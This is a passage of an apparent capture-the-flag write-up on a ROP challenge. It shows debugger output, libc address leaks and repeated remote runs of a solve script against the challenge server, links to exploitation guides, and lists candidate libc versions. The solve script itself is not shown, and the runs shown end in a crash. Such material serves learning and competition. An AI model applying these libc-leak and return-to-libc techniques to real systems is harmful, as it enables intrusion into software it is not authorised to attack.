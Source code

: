 a second time just to verify:

```
b'  \xe8\xa0\x81\xda\x7f\nAre you a master of ROP?\nShow me what you can do:'

pwndbg> p puts
$1 = {int (const char *)} 0x7fda81a0e820 <__GI__IO_puts>
```

this link looks promising!!

<https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address>

so i leaked the address remotely!

```
python3 solve.py 
[+] Opening connection to ch.hackyeaster.com on port 2314: Done

b' p\x99^\xae[\x7f\nAre you a master of ROP?\nShow me what you can do:'
[*] Switching to interactive mode
 $ 
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to ch.hackyeaster.com port 2314
[*] Got EOF while sending in interactive
```

the following writeup also looks nice :)

<https://github.com/csivitu/CTF-Write-ups/tree/master/Deconstruct.f/pwn/Reject%20humanity%20return%20to%20libc>

so i did the same also remotely:

```
$ python3 solve.py 
[+] Opening connection to ch.hackyeaster.com on port 2314: Done

0xfd5c7970
[*] Switching to interactive mode
 $ 
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to ch.hackyeaster.com port 2314
[*] Got EOF while sending in interactive
```

this website gave me: <https://libc.blukat.me/>

```
libc6-amd64_2.23-0ubuntu11.2_i386
libc6-amd64_2.23-0ubuntu11.3_i386
libc6_2.27-3ubuntu1.5_amd64
libc6_2.27-3ubuntu1.6_amd64
```
